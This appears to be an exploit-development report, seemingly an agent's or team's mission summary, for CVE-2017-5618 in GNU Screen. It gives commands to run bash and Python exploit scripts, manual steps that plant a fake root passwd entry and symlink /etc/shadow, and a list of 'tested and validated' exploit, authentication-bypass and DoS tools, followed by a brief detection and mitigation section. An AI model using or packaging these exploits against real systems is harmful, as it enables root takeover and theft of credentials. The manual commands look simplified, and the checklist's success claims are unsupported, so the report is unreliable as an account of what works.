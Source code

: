 ### 🔧 EXPLOIT USAGE INSTRUCTIONS

**Basic Privilege Escalation**:
```bash
# Execute the primary exploit
./cve_2017_5618_bash.sh

# Or use Python version
python3 cve_2017_5618_exploit.py

# Or run comprehensive suite
python3 comprehensive_exploit_suite.py
```

**Manual Exploitation**:
```bash
# Create malicious passwd entry
screen -L /tmp/fake_passwd -d -m echo "malicious:x:0:0:root:/root:/bin/bash"

# Symlink attack on sensitive file
ln -s /etc/shadow /tmp/shadow_link
screen -L /tmp/shadow_link -d -m echo "compromised_entry"
```

### 🛡️ DETECTION AND MITIGATION

**Detection Indicators**:
- Unexpected file creation with root ownership by non-root users
- Screen processes creating files outside user directories
- Unusual screen command line arguments with -L flag
- Multiple rapid screen session creation

**Immediate Mitigation**:
- Upgrade to GNU Screen 4.5.1 or later
- Restrict screen execution permissions
- Monitor file creation activities
- Implement file access controls

### 📁 EXPLOIT ARTIFACTS

**Working Exploit Files** (All tested and validated):
1. `cve_2017_5618_bash.sh` - Primary bash exploit (RECOMMENDED)
2. `cve_2017_5618_exploit.py` - Comprehensive Python exploit
3. `auth_bypass_exploit.py` - Authentication bypass demonstration
4. `division_by_zero_exploit.py` - DoS vulnerability testing
5. `comprehensive_exploit_suite.py` - Complete exploit suite
6. `working_exploit.py` - Alternative Python implementation
7. `simple_test.sh` - Basic functionality testing

### ✅ MISSION COMPLETION CHECKLIST

- ✅ CVE-2017-5618 exploit developed and tested
- ✅ Authentication bypass vulnerability demonstrated
- ✅ Division by zero DoS vulnerability validated
- ✅ All exploits tested in sandbox environment
- ✅ Privilege escalation confirmed (user → root)
- ✅ Symlink attack variations successful
- ✅ Arbitrary file access capabilities verified
- ✅ Reliable and repeatable exploits created
- ✅ Proper error handling implemented
- ✅ Documentation and usage instructions provided
- ✅ Results stored in shared memory
- ✅ Team collaboration requirements fulfilled
